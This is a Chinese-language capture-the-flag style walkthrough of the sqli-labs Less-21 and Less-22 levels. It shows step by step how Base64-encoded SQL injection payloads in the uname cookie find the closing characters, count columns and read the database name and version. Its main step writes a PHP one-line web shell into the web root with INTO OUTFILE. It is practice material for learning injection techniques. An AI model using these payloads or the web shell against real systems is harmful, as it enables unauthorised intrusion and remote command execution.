# Chapter-1-靶场关卡标题

## Less-21:POST-Dump into outfile-String

注入点：Cookie 的 uname 参数

关键点：写在 Cookie 里的 payload 必须先 Base64 编码，服务端拿到 Cookie 值自动解码，拼入 SQL。

# Chapter-2-靶场实操完整SQLi流程

### 步骤一：

访问 Less-21 页面，提交正确账号密码admin/admin登录。登录成功后，服务端会设置 Cookie





打开 Burp Suite，开启 Proxy → Intercept 拦截。



### 步骤二：确定闭合方式

**payload:**`admin')`



`YWRtaW4nKQ==`





多出一个`')`，触发语法报错，证明闭合符号是`')`，payload 使用 `') `闭合前面单引号和括号。

**payload:**`admin') and 1=1#`



页面正常回显 → 闭合成功。

### 步骤三：联合查询，判断字段数

**payload：**`-1') union select 1,2,3#`



页面正常回显2、3，说明一共3 列，且2、3 列可回显。

### 步骤四：查询基础信息（数据库名、版本）

**payload:**`-1') union select 1,database(),version()#`



### 步骤五：核心目标 INTO OUTFILE 写入一句话木马（Dump into outfile）

**payload:**`-1') union select '',"<?php @eval($_POST['cmd']);?>",'' into outfile "D://phpstudy_pro/WWW/sqli-labs/shell.php"#`

union select 将一句话内容，使用into outfile写入网站目录，之后用蚁剑连接。







## Less-22

和Less-21流程完全一样，把`')`换成`"`即可